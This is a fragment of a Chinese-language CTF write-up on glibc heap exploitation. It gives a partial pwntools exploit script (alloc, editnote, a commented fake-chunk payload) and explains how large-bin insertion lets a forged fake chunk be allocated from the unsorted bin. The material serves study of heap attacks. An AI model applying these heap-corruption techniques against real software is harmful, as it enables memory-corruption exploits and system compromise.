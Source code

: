 ```python


alloc(0x48) #2 //important

editnote(2,p64(0)*8)

#debug()

fopen()
io.send('\x00'*0x30)
#debug()

#payload = p64(0) + p64(0x91)
#payload += "A"*224
#payload += p64(0x90)
#editnote(3,payload)
#debug()
io.interactive()
```



![5cab4d78076e9](https://i.loli.net/2019/04/08/5cab4d78076e9.png)

在add0x48时，会先到unsorted bin中找相应大小的chunk，0x5587bac36060大小不符合，会被放入large bins
执行：  

victim->fd_nextsize = fwd;  

victim->bk_nextsize = fwd->bk_nextsize;  

fwd->bk_nextsize = victim;  

victim->bk_nextsize->fd_nextsize = victim;  

....  

....  

victim->bk = bck;  

victim->fd = fwd;  

fwd->bk = victim;  

bck->fd = victim;    





之后会找unsorted bin中下一个chunk，即为我们伪造的fake_chunk-0x20。  

fake_chunk-0x20 位置会是一个大小为0x56的chunk，正好将其分配出来。    





![5cab4db9012bd](https://i.loli.net/2019/04/08/5cab4db9012bd.png)
